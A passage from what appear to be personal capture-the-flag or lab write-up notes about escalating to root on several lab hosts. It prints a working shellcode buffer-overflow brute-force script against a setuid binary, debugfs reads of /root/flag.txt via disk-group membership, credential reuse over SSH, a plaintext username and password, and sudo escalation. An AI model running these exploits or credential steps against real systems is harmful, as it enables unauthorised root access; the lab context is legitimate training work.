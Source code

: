 In `id` we find that ian is in disk group and from hacktricks we can do priv esc 

First we have to find where `\` is mounted in the system.
![[Pasted image 20211006184756.png]]

```bash
df -h
debugfs /dev/sda5
cat /root/flag.txt
```

## 172.16.2.101

We can use previous creds from [[#Minus minus plus]] of julian and use it to ssh into it and find the user flag.

There's a folder named PEDA which is a clone of this repo => https://github.com/longld/peda and from the name of the next flag heading I think it is a BoF. So I googled for a python gdb bufferoverflow script or smn similar and we find this

```python
import os
for i in range(255):
        os.system(""" /usr/sbin/readfile $(python2 -c 'print "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"+"A"*(88-27)+"{}\xe3\xff\xff\xff\x7f"') """.format("\\x"+hex(i).split('x')[1]))
```

When this code is executed it continuously overflows and when you do `ctrl+c` a root shell will pop and we can get the flag

## 172.16.2.6

We can access `2.6` only from `2.101` not eve `2.5` we use the same creds as julian from previous to ssh into it and we get in and wind the first flag.

We also find the below message which hints to `1.5` machine.

![[Pasted image 20211010130932.png]]

We don't find any other users but just in case we check the `/etc/passwd`for users and we find there's another user called `plongbottom` who we found creds for in the employee creds file from `1.20` and we switch to that user and check id and see he's in the sudo grp which means we can directly switch

```bash
id
```


![[Pasted image 20211013134638.png]]

`plongbottom:PowerfixSaturdayClub777`

```bash
sudo su
```
